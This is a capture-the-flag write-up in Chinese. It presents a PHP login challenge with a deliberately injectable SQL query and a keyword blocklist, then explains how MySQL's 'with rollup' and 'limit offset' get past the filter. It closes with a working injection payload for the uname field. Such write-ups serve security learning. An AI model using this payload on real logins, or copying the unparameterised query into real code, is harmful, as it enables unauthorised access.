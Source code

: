 # Challenge 
```php 
<?php
error_reporting(0);
if (!isset($_POST['uname']) || !isset($_POST['pwd'])) {
	echo '<form action="" method="post">'."<br/>";
	echo '<input name="uname" type="text"/>'."<br/>";
	echo '<input name="pwd" type="text"/>'."<br/>";
	echo '<input type="submit" />'."<br/>";
	echo '</form>'."<br/>";
	echo '<!--source: source.txt-->'."<br/>";
    die;
}
function AttackFilter($StrKey,$StrValue,$ArrReq){  
    if (is_array($StrValue)){
        $StrValue=implode($StrValue);
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){   
        print "水可载舟，亦可赛艇！";
        exit();
    }
}
$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
foreach($_POST as $key=>$value){
    AttackFilter($key,$value,$filter);
}
$con = mysql_connect("XXXXXX","XXXXXX","XXXXXX");
if (!$con){
	die('Could not connect: ' . mysql_error());
}
$db="XXXXXX";
mysql_select_db($db, $con);
$sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
$query = mysql_query($sql);
if (mysql_num_rows($query) == 1) {
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
	print "一颗赛艇！";
}
mysql_close($con);
?>
```
# Solution

用到mysql中的`with rollup`技巧。用普通的select查询下；
```
mysql> SELECT uname,pass FROM test.table;
+---------+------+
| uname   | pass |
+---------+------+
| chybeta | 123  |
+---------+------+
1 row in set (0.00 sec)
```
在加上`group by pass with rollup`后
```
mysql> SELECT uname,pass FROM test.table group by pass with rollup;
+---------+------+
| uname   | pass |
+---------+------+
| chybeta | 123  |
| chybeta | NULL |
+---------+------+
2 rows in set (0.01 sec)
```
rollup在查询结果中加上了一行，并且pass字段的值为NULL。这样当我们post进的pwd的值为空，就能满足`$key['pwd'] == $_POST['pwd']`的条件了。

在此之前我们还有一个条件要满足`mysql_num_rows($query) == 1`，我们要选择pass为NULL的单独的这一条记录。从源码分析可得，过滤了逗号，我们不能简单的使用`limit 1,1`这样的语法，而是可以使用`limit 1 offset 1`。就本地环境而言，比如

```
mysql> SELECT uname,pass FROM test.table group by pass with rollup limit 1 offset 1;
+---------+------+
| uname   | pass |
+---------+------+
| chybeta | NULL |
+---------+------+
1 row in set (0.01 sec)
```

payload:
```se
uname='  or 1=1 group by pwd with rollup limit 1 offset 2 #&pwd=
```

# Refference
+ [chybeta : 因缺思汀的绕过](https://chybeta.github.io/2017/07/24/%E5%AE%9E%E9%AA%8C%E5%90%A7-web-writeup/#%E5%9B%A0%E7%BC%BA%E6%80%9D%E6%B1%80%E7%9A%84%E7%BB%95%E8%BF%87)